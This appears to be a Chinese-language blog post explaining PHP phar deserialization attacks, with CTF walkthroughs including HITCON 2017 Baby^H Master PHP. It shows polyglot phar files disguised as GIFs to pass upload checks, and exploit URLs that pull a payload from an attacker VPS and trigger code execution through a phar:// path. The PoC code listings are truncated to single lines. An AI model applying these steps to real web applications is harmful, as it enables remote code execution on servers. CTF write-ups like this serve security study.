




概述
这周准备抓一抓PHP序列化相关的知识,所以有了下面这些东西.
Phar定义
简单来说phar就是php压缩文档。它可以把多个文件归档到同一个文件中，而且不经过解压就能被 php 访问并执行，与file:// php://等类似，也是一种流包装器。
phar结构由 4 部分组成
stub phar 文件标识，格式为 xxx；
manifest 压缩文件的属性等信息，以序列化存储；
contents 压缩文件的内容；
signature 签名，放在文件末尾；
这里有两个关键点，一是文件标识，必须以__HALT_COMPILER();?>结尾，但前面的内容没有限制，也就是说我们可以轻易伪造一个图片文件或者pdf文件来绕过一些上传限制；二是反序列化，phar存储的meta-data信息以序列化方式存储，当文件操作函数通过phar://伪协议解析phar文件时就会将数据反序列化，而这样的文件操作函数有很多，包括下面这些：

CTF_1
Phar://协议流只要出现phar标识头就会解析，所以我们可以直接改成gif格式文件
根据上述poc创建出poc1.gif上传后，通过file_exists触发文件反序列化
1 | <?php |
127.0.0.1/phar/file.php?filename=phar://poc1.gif&a=phpinfo();

CTF_2
HITCON2017 Baby^H Master PHP 2017

代码第40行进行反序列化，回溯到第9行是对user类进行反序列化。
通读代码可知需要构造反序列化Admin类触发__destruct，执行create_function创建匿名函数，通过$_GET[‘lucky’]()执行匿名函数得到Flag.
$data通过cookie传入，可控。但是在check_session()方法对$data进行hash验证。很显然我们得不到secret。

看来伪照$data无果，看到upload()方法有file_get_contents方法，由文章开头可知该方法可以触发phar反序列化。
我们可以通过$_GET[‘url’]借助vps上传avatar.gif，Poc构造如下
1 | <?php |
接下来就是执行怎样通过$_GET[‘lucky’]执行匿名函数问题。
源码分析匿名函数具体见我一篇文章：create_function任意代码执行
那么怎样才能得到匿名函数名，可以参考： Apache的三种MPM模式比较：prefork，worker，event。当用户请求过大时，超过 apache 默认设定的阀值时，就会启动新的线程来处理请求，此时在新的线程中，匿名函数的名字又会从1开始递增，这样我们就容易猜测匿名函数的名字了。
将生成的 poc1.phar 放在自己的 VPS 上并重命名成 avatar.gif，然后将文件上传到题目服务器上：
1 | http://题目IP/index.php?m=upload&url=http://VPS_IP/ |
接着，我们需要通过大量请求，使 apache 重新开启一个新的线程，然后访问如下 url 即可完成反序列化并获得 flag ：
1 | http://题目IP/index.php?m=upload&url=phar:///var/www/data/$SANDBOX/&lucky=%00lambda_ |
多线程请求
1 | # coding: UTF-8 |